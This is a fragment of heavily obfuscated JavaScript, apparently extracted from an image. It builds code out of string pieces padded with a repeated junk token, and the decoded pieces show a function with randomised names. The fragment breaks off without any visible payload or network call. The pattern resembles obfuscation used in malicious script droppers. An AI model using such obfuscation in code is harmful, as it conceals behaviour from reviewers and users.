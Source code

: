 ```javascript
'tUhiOuBNMecoDlnXPEC);GJpWSFwRVsYtUhiOuBNMecoDlnXPEC GJpWSFwRVsYtUhiOuBNMecoDlnXPEC'+
'}GJpWSFwRVsYtUhiOuBNMecoDlnXPEC GJpWSF'+
'wRVsYtUhiOuBNMecoDlnXPECfuGJpWSFwRVsYt'+
'UhiOuBNMecoDlnXPECnctGJpWSFwRVsYtUhiO'+
'uBNMecoDlnXPECiGJpWSFwRVsYtUhiOuBNMecoDlnXPEConGJpWSFwRVsYtUhiOuBNMecoDlnXPEC pGJpWSFwRVsYtUhiOuBNMecoDlnXPECFMGJpWSFwRVsYt'+
'Uh'+
'iOuBNMecoDlnXPECI'+
'GJpWSFwRVsYtUhiOuBNMecoDlnXPEChGJpW'+
'SFwRVsYtUhiOuBNMecoDln'+
'XPECUGJpWSFwRVsYtUhiOuBNMecoDlnXPECowGJpWSFwRV'+
'sYtUhiOuBNMecoDlnXPECzGJpWSFwRVsYtUhiOuBNMecoDlnXPECiGJpWSFwRVsYtUhiOuBNMecoDlnXPECArGJpWSFwRVsYtU'+
'hiOuBNMecoDlnXPE'+
'CRGJpWSFwRVsYtUhiOuBNMecoDlnXPECEGJpWSF'+
'wR'+
'VsYtUhiOuBNMecoDlnXPECXLcGJpWSFwRVsYtUhiOuBNMecoDl'+
'nXPECaGJpWSFwRVsYtUhiOuBNMec'+
'oDlnXPECuGJpWSFwRVsYtUhiOuBNMecoDlnXPEC(LYOGJpWSFwRVsYtUhiOuBNMecoDlnXPECtIGJpWSFwRVsYtU'+
'hiOuBNM'+
'ecoDlnXPECUGJ'+
'pWSFwRV'+
'sYtUhiOuBNMecoDlnXPECbvGJpWSFwRVsYtUhiOuBNMecoDlnXPECSGJpWS'+
'FwRVsYtUhiOuBNMecoDlnXPECTrFKGJp'+
'WSFwRVsYtUhiOuBNMecoDlnXPECJGJpWSFwRVsYtUhiOuBNMecoDlnXPECnGJpWSFwRVsYtUhiOuBNMecoDlnXPECBGJpWSFwRVsYtUhiOuBNMe'+
'coDlnXPECoGJpWSFwRVsYtUhiOuBNMec'+
'oDlnXPEC, '+
'GJpWSFwRVsYtUhiOuBNM'+
'ecoDlnXPECbYjxGJ'+
'pWSFwRVsYtUhiOuBNMecoD'+
'lnXPECQGJpWSFw'+
'RVsYtUhiOuBNMecoDlnXPECtGJpWS'+
'F'+
'wRVsYtUhiOuBNMecoDlnXPECuwhRGGJpWSFwRVsYtUhiOuBNMecoDlnXPE'+
'CnGJpWSFwRVsYtUhiOuBNMecoDlnXPECmGJpWSFwRVsYtUhiOuBNMecoDlnXPECVNGJp'+
'WSFwRVsYtUhi'+
'OuB'+
'NMecoDlnXPEC)GJpWSFwRVs'+
'YtUhiOu'+
'BNMecoDlnXPEC GJ'+
'pWSFwRVsYtUhiOuBNMecoDlnXPEC{GJpWSFw'+
'RVsYtUhiOuBNMecoDlnXPEC GJpWSFwR'+
'VsYtUhiO'+
'uBNMecoDlnXPECrGJpWSFwRVsYtUhiOuBNMec'+
'oDlnXPEC'+
'eGJpWSFwRVsYt'+
'UhiOuBNMecoDlnXPECtGJpWSFwRVsYtUhiOuBNMecoDlnXPECuGJpWSFwRVsYtUhiOuBNMecoDlnXPECrGJpWSFwRVsYtUhiOuBNMecoDlnXPECn GJpWSFwRVsYtUhi'+
'OuBNMecoDlnXPECLGJpWSFwRVsYtUhiOuBNMecoDlnXPECYOGJp'+
'WSFwRVsYtUhi'+
'OuBNMecoDlnXPECtGJpWSFwRVsYtUhiOuBNMecoDlnX'+
'PECIUbvSGJ'+
'pWSFwRVsYtU'+
'hiOuBNMecoDlnXPECTGJpWSFwRVsYtUhiOuBNMecoDlnXPECrGJpWSFwRVsYtUhiOuBNMecoDlnXPECFGJpWSFwRVsYtUhiOuB'+
'NMecoDlnXPECKGJpWSFwRVsYtUhiOuBNMecoDlnXPECJGJpWS'+
'FwRVsYtUhiOuBNMecoDlnXPECnGJpWSFwRVsYtUhiOuBNMecoDlnXPECBGJpWSFwRVsYtUhi'+
'OuBNMecoD'+
'lnXPECoGJpWSFwRVsYtUhiOuBNMecoDlnXPEC.'+
'GJpWSFwRVsYtUhiOuBNMecoDlnXPECcGJpWSFwRVsYtUhiOuBNMecoDlnXPEChGJ'+
'p'+
'WSFwRVsYtUhiOuBNM'+
```